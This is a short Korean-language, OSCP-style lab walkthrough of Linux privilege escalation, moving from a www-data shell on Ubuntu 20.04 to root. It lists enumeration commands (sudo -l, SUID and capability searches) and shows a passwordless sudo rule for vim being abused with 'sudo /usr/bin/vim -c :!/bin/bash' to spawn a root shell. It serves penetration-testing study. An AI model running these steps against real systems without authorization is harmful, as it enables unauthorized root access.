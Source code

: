 
# 🐧 \[리눅스 권한 상승 시나리오 - OSCP 스타일]

---

## 🎯 시나리오

- 타깃: Ubuntu 20.04
- 초기 쉘 권한: `www-data`
- 목적: `root`로 권한 상승

---

## 1️⃣ 정보 수집 (수동)

```bash
whoami
uname -a
hostname
id
sudo -l
```

```bash
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
ps aux | grep root
env
```

### 발견:

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    (ALL) NOPASSWD: /usr/bin/vim
```

→ 패스워드 없이 `vim`을 루트 권한으로 실행 가능!

---

## 2️⃣ 분석

`vim`은 쉘을 실행할 수 있음:

```vim
:!sh
```

또는 더 직접적으로:

```bash
sudo /usr/bin/vim -c ':!/bin/bash'
```

---